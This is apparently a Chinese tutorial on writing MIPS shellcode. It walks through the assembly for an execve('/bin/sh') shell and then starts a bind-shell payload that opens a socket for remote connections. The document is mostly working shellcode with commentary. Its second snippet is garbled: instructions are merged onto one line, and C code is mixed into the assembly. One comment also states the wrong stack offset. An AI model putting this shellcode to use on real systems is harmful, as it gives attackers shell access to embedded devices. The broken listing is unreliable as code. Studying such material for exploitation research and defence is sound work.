 



## 汇编指令解析

```c
#include <stdlib.h>

int main(){
    execve("/bin/sh",0,0);
return 0;
}

```
被编译为


```c
lui $t6,0x2f62  
ori $t6,$t6,0x696e
sw $t6,28($sp)                        // 将 "/bin" 存入 $sp+28 的栈空间

lui $t7,0x2f2f
ori $t7,$t7,0x7368
sw $t7,32($sp)                        // 将 "//sh" 存入 $sp+28 的栈空间
sw $zero,36($sp)                  // 0 截段


la $a0,28($sp)                        // a0 寄存器指向 "/bin//sh" 栈空间

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011            // execve 的系统调用号为 4011

syscall 0x40404                        // 调用 execve("/bin/sh",0,0);
```
- mips只能放入16位立即数（尽管是32位寄存器）所以在存入/bin字符串的时候先用lui把`/b`加载到寄存器高16位，用ori指令存入低16位
- 接下来的数据存放到栈地址更高处 sp+28  /bin  sp+32  //sh
- sw $zero,36($sp)  放0截断
- 用la $a0,28($sp)  获取
- a0，a1，a2用来传参。 v0用来存放系统调用号

## shellcode编写实例

等待用户远程的连接

```
###### sys_socket ######  sockfd = socket(AF_INET, SOCK_STREAM, 0)
addiu  $sp, $sp, -32
li               $t6, -3
nor          $a0, $t6, $zero
nor          $a1, $t6, $zero
slti           $a2, $0, -1       #用这种方式给寄存器赋值0
li               $v0, 4183
syscall 0x40404##### sys_bind ####

    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(_INT_PORT);
    my_addr.sin_addr.s_addr = inet_addr("132.241.5.10");
    bind(sockfd, (struct sockaddr *)&my_addr,sizeof(struct sockaddr_in))



add          $t9, $t9, 0x4444                #nop
andi        $s0, $v0, 0xffff
li               $t6, -17                  nor          $t6, $t6, $zero
```